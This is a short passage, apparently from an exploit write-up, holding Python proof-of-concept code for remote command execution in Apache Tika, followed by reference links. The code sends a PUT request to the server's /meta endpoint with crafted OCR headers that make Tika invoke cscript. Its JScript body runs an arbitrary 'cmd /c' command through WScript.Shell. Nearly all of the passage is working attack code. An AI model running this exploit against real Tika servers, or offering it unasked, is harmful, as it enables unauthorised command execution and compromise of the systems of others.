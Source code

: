 ```py=
    url = f"http://{host}:{port}/meta"
    header = {
              "Connection": "close",
              "X-Tika-OCRTesseractPath": "\"cscript\"",
              "X-Tika-OCRLanguage": "//E:Jscript",  
              "Content-Type": "image/jp2"
              }
    dat = f"""var Exp = WScript.CreateObject("WScript.Shell");
    var oExec = Exp.Run('cmd /c {command}');""" 


    try:
        requests.put(url,headers=header,data=dat)
    except:
        requests.put(url,headers=header,data=dat)

main()
```

## Reference

https://github.com/vaites/php-apache-tika/issues/31

https://cloud.tencent.com/developer/article/1512079

https://juejin.cn/post/6844903800738676749

https://blog.csdn.net/caiqiiqi/article/details/88532439